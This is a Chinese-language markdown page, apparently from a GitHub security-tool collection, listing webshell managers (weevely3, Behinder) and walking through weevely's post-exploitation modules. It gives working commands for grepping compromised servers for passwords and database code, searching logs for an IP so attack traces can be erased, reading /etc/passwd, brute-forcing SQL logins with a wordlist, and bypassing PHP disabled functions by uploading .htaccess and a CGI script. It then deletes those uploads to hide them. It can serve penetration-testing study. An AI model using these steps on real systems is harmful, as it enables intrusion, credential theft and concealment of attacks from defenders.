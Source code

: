 ### Webshell管理与后渗透工具

|名称|属性|针对目标环境|描述|
|:-------------:|--|--|-----|
|[epinna/weevely3](https://github.com/epinna/weevely3)|python|php|文件管理/HTTP(S) proxy/Bruteforce SQL accounts/Port scan|
|[rebeyond/Behinder](https://github.com/rebeyond/Behinder)|Java|php/Java/.NET|“冰蝎” 动态二进制加密 webshell管理端|

#### 后渗透功能

weevely的后渗透功能：
* 信息搜集
    * 使用grep提取各文件中的敏感信息
      * 口令
        * `grep . '^[^*/#]*passw?o?r?d?'`
      * 连接数据库的代码
        * `grep . 'mysql_conn'`
      * 日志 搜索敏感ip以便后续清除攻击痕迹
        * `grep . '209.12.12.12'`
    * SQL交互模式
      * 使用sql_console模块 - 连接mysql 并进入交互模式
        * `sql_console -user USER -passwd PASS123 -host 10.2.3.4` 然后可以使用`show databases;`等进行命令交互。
    * 读取敏感文件
      * 使用audit_etcpasswd模块 - 用不同技术读取passwd文件
        * `:audit_etcpasswd`
    * 暴力枚举登录口令
      * 使用bruteforce_sql模块 - 暴力枚举SQL用户的登录口令
        * `:bruteforce_sql mysql -users USERNAME1 USERNAME2 USERNAME3ROOT -fpwds wordlists/dic.txt`
    * 命令交互
      * 使用audit_disablefunctionbypass模块 - 伪终端命令交互
        * 启动模块`:audit_disablefunctionbypass` 注意：会上传 .htaccess 和 CGI脚本 acubu.ved
        * 可执行系统命令 `ps -aux` `whoami` 等
        * 使用后删除刚才上传的文件 `:file_rm .htaccess` `:file_rm acubu.ved`
        * 如果不清理以上文件则下次可以免上传直接启动终端 `:audit_disablefunctionbypass -just-run http://localhost/acubu.ved`
